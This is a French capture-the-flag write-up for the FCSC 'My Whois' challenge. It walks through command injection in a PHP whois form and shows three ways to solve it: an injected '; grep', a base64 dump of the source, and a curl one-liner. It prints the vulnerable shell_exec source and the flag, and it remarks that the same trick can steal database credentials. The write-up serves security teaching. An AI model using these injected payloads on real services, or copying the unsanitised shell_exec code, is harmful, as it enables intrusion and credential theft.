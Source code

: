 # My Whois

catégorie | points
:---: | :---:
misc | 25

## 0x0 Intro

>Nous avons mis en place un service en ligne faisant de la recherche de nom de domaine. Pouvez-vous accédez à son code source ?
>
>http:\//challenges1.france-cybersecurity-challenge.fr:7001

## 0x1 Explications

Quelques bases en linux vous serons nécessaire pour réaliser ce challenge.
Nous allors jouer avec la ligne de commande, et je vous montrerai trois façons 
de valider ce challenge.

![challenge](./IMG/1.png)

## 0x2 Reconnaissance

Nous allons commencer par tester le service en question, voir comme il fonctionne.

![whois chatonesque](./IMG/2.png)

Nous avons bien le retour du whois comme nous l'aurions eu en tapant la commande
suivante sous linux:

```bash
whois blog.caturday-lovers.fr.nf
```

Nous pouvons donc supposer que notre demande est redirigée vers un shell, dont 
la sortie nous sera redirigée sur la page.

Pour tester cela, nous allons faire un simple **ls -alh** qui nous listera les 
fichiers présent dans le répertoire en cours, et qui sait, peut-être voir notre 
fichier à sourcer.

![test du ls](./IMG/3.png)

## 0x3 Exploitation

C'est bien ce que nous supposions, le site nous redirige la sortie d'un terminal.
Nous allons pouvoir faire ce que nous voulons de lui.

### 0x3-0 Solution 1, tout via le site

Nous savons que nous cherchons un flag dans le fichier index.php, nous avons 
sous linux une armada d'outils pour le faire, mais j'en aime un tout particulièrement,
c'est GREP.

Avec GREP nous pouvons rechercher un pattern particulier, et c'est ce que nous
allons faire ici.

Nous savons que le format des flags est FCSC {xxxx} où "xxxx" est une chaîne 
contenant des caractères ASCII imprimables. Avec Grep, nous pouvons le faire 
comme ceci:

```bash
grep -o -E "FCSC{.*?}"
```

L'option -o pour n'afficher que le résultat, et -E pour rechercher le pattern 
donné entre guillemets. La signification de **.\*?** est la suivante:

**.** = un caractère

**\*** = répété autant de fois

**?** = jusqu'au dernier caractère du pattern.

La commande à passer dans la box est donc :

```bash
; grep -E "FCSC{.*?}" index.php
```

Le **;** au début est important, c'est un opérateur de liaison qui va dire

> dès que la première commande est finie, enchaine sur la suivante

Une liste d'opérateurs est disponible [ici](https://linuxhint.com/bash_operator_examples/)

Le résultat de la commande est:

![inline web](./IMG/5.png)

### 0x3-1 Solution 2, extraction via base64

Que ce passerait-il si nous avions fait un: 

```bash
cat index.php
```
~~La  réponse n'est pas forcément celle attendue, en effet, le serveur va 
interpréter le code sur certaines parties, et donc le rendre illisible.~~

Précision de la part de [ribt](https://github.com/ribt) (merci à toi)

>En effet sur ta page tu vois plein de blancs mais ça n'est pas parce que le serveur l'exécute au contraire c'est ton navigateur qui attend du code HTML alors il te montre pas les <?php ... ?>. Tu avais juste à faire clic droit, "voir le code source" et tu aurais vu le PHP (probablement en rouge d'ailleurs).
>D'ailleurs tu vois bien que le serveur envoie le code puisque le curl avec cat index.php fonctionne

![online cat](./IMG/4.png)

Une des solutions, qui est utilisée en redteam pour extraire des données, c'est
l'utilisation de l'encodage base64, l'avantage, c'est qu'il est reversible et
qu'il conserve l'intégrité du document.

Il donne un bloc qui permet l'extraction sans être interprété, et de le décoder
ensuite sur sa machine:

![online b64](./IMG/6.png)

Il ne vous reste plus qu'a le copier et le coller dans  un document sur votre 
machine, et d'utiliser la fonction de décodage native dans votre shell:

```bash
cat base64.txt | base64 -d 
```

ou comme sur ma machine avec un alias

```bash
cat base64.txt | decode64
```

La moulinette passée, vous accédez à la source de la page:

```php

<?php
  
  /*
  ** The flag is:
  ** FCSC{2e3405155d63a7d82f215d17232ea102314509ecbe90d605cf8be26f4639153b}
  */

  ini_set('display_errors', 0);
  ini_set('display_startup_errors', 0);
  error_reporting(0);

  abstract class Command {
    public static function whois($domain) {
        $cmd = "/usr/bin/whois $domain";
        return shell_exec($cmd);
    }
  }
?>
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <meta name="description" content="">
    <meta name="author" content="">

    <title>MyWhois</title>

    <!-- Bootstrap core CSS -->
    <link href="css/bootstrap.min.css" rel="stylesheet">
  </head>

  <body>

    <nav class="navbar navbar-expand-md navbar-dark fixed-top bg-dark">
      <a class="navbar-brand" href="index.php">MyWhois</a>
    </nav>

    <main role="main" class="container">
      <div class="jumbotron">
        <?php
          if(isset($_GET['domain']) && $_GET['domain'] !== ''){
            echo '<h1>Result: ' . $_GET['domain'] . '</h1><br>';
            echo '<pre>';
            echo Command::whois($_GET['domain']);
            echo '</pre>';
          } else {
        ?>
          <h1>MyWhois</h1>
          <p class="lead" style="margin-bottom:0px;">
            You custom whois tool!
          </p>
          <form action="index.php" method="get">
            <div class="row">
              <div class="col-sm">
                <div class="input-group mb-3">
                  <div class="input-group-prepend">
                    <span class="input-group-text" id="head-suffix">Domain</span>
                  </div>
                  <input type="text" class="form-control" placeholder="ssi.gouv.fr" id="domain" name="domain" value="">
                </div>
              </div>
            </div>
            <center>
              <button type="submit" class="btn btn-primary">Whois</button>
            </center>
          </form>
        <?php
          }
        ?>
      </div>
    </main>
  </body>
</html>
```

Il ne reste plus qu'a chercher le commentaire.

### 0x3-2 Solution 3, la ligne de commande et curl

La dernière solution proposée, est à base de ligne de commande.
Lors des précédentes méthodes, vous vous êtes peut-être aperçu que l'adresse
changeait dynamiquement avec nos requetes.

Nous pouvons utiliser ce vecteur pour réaliser une exfiltration en une seule 
ligne de commande:

```bash
curl http://challenges1.france-cybersecurity-challenge.fr:7001/index.php?domain=%3Bcat+index.php | grep -o -E "FCSC{.*?}"
```
![inline curl extraction](./IMG/7.png)

## 0x4 TL;DR

Dans cet exercice, nous avons abusé une requête qui n'était pas sécurisée, et 
qui nous à donné le champ libre pour une [Execution de code à distance](https://en.wikipedia.org/wiki/Arbitrary_code_execution).

Une fois le code executé, nous avons eu au choix:

* la possibilité d'afficher le flag sur la page
* extraire le code de la page web (utile pour voler les IDs MySQL) via base64
* utiliser curl et une ligne de commande unique afin de parser la page récupérer le flag.

